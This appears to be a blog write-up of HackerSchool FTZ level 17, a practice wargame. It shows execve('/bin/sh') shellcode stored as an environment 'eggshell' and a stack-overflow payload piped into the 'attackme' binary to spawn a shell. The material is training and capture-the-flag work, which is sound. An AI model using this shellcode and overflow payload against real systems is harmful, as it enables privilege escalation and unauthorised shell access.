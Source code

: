 ```yaml
---
layout: post
title: "HackerSchool FTZ, mainsource - Level17"
date: 2019-07-07 18:12:31 +0900
categories: [pwnable]
---
```


It's almost similar to the previous problem.  
![level17_problem](https://1.bp.blogspot.com/-uz7ctUhNB50/XSSomoj1rBI/AAAAAAAAUPo/6fk-Nwbwo5kqP4kIfoCTtySgHTvzxL9tgCLcBGAs/s1600/Screen%2BShot%2B2019-07-09%2Bat%2B23.45.16.png)

Now there's no function shell. So I thought that I have to put the address of eggshell into the payload that I used before.

I found an eggshell by googling.

```bash
export egg=`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
```

and let's figure out the address of it.

![level17_eggshell](https://1.bp.blogspot.com/-gDr8_qnR5Vw/XSSpiJvzSmI/AAAAAAAAUPw/We09_xwS6Hwdif3qlt7mNHWxLUkmBPAPQCLcBGAs/s1600/Screen%2BShot%2B2019-07-09%2Bat%2B23.49.13.png)

![level17_eggshell](https://1.bp.blogspot.com/-GSaR6ixx1Eg/XSSpl2qnTdI/AAAAAAAAUP0/beJ1EM38XekCF8sK3j0Ye_R87GSAo6vugCLcBGAs/s1600/Screen%2BShot%2B2019-07-09%2Bat%2B23.49.25.png)

whoo! I solved it again with this payload.

```bash
(python -c 'print "A"*40+"\x3a\xff\xff\xbf"';cat)|./attackme
```
